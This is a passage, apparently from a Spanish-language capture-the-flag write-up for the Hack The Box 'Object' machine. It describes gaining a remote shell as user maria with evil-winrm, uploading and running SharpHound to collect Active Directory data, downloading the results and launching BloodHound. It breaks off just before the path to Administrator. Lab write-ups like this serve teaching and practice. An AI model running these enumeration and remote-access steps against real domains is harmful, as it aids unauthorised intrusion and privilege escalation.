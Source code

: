 ![net user maria](/assets/images/Object/net_user_maria.png)

Como maria forma parte del grupo de remote management use nos podriamos conectar remotamente con evilwinrm 

Ahora usaremos el bloodhound como en la maquina Forest, con el mismo injestor y version.

Para descargarnos el injestor:

```s
upload /home/rebick/Documents/HtB/Object/SharpHound.ps1
```

Y ahora para ejecutarlo:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
#Para descargarlo y cambiarle el nombre
download C:\ProgramData\bh\20220720110042_BloodHound.zip data.zip
```

Para ejecutar bloodhound en segundo plano:

```s
neo4j console
bloodhound &> /dev/null &
```

La manera mas corta de convertirse en Admin es:
